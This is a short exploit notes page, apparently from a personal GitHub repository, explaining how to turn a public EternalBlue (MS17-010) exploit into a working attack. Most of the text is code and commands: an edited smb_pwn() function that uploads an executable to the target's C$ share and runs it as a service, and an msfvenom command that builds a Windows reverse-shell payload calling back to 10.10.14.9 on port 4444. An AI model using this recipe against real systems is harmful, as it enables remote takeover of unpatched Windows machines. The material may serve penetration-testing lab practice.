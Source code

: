 # EXPLOITS

## EternalBlue
My favourite exploit for EternalBlue (MS17-010) CVE-2017-0144 is [This one](https://www.exploit-db.com/exploits/42315).
You can find the files inside EternalBlue directory.

In order to make it work, we need to modify the credentials:

```
USERNAME = ''
PASSWORD = ''
```

And the function __smb_pwn()__ to look like:

```
def smb_pwn(conn, arch):
        smbConn = conn.get_smbconnection()

        # print('creating file c:\\pwned.txt on the target')
        # tid2 = smbConn.connectTree('C$')
        # fid2 = smbConn.createFile(tid2, '/etblue.exe')

        # smbConn.closeFile(tid2, fid2)
        # smbConn.disconnectTree(tid2)

        print('pwned!!')
        smb_send_file(smbConn, './etblue.exe', 'C', '/etblue.exe')
        service_exec(conn, r'cmd /c c:\etblue.exe')
```

We also need to create a file named __etblue.exe__ (or whatever) containing our shellcode. We'll use __msfvenom__:

```
msfvenom -p windows/shell_reverse_tcp -f exe LHOST=10.10.14.9 LPORT=4444 > etblue.exe
```